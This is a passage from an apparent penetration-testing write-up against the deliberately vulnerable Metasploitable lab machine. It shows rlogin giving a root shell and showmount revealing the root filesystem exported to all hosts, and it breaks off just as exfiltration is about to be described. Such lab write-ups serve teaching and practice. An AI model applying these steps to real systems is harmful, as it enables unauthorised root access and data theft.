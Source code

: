 ## Exploitation

### rlogin

The first service that I poked at was the rlogin service, allowing remote login to the system via port 513. This required installing the rsh client:

```
root@kali:~# apt install rsh-client
```

... but once installed, it was trivial to log in to the system:

```
root@kali:~# rlogin target
Last login: Wed Mar 21 14:44:41 EDT 2018 from 172.16.243.144 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable:~# hostname
metasploitable
```

### NFS

Another service that was seen running, was the NFS service on port 2049.

After installing the `nfs-common` package:

```
root@kali:~# apt install nfs-common
```

I was able to exam the NFS exports of the target by utilizing the `showmount` command:

```
root@kali:~# showmount -e target
Export list for target:
/ *
```

This is particularly dangerous, as it allows any system to mount the root filesystem of the target system. Doing so, it was possible to make any arbitrary changes and exfilitration from the target system:
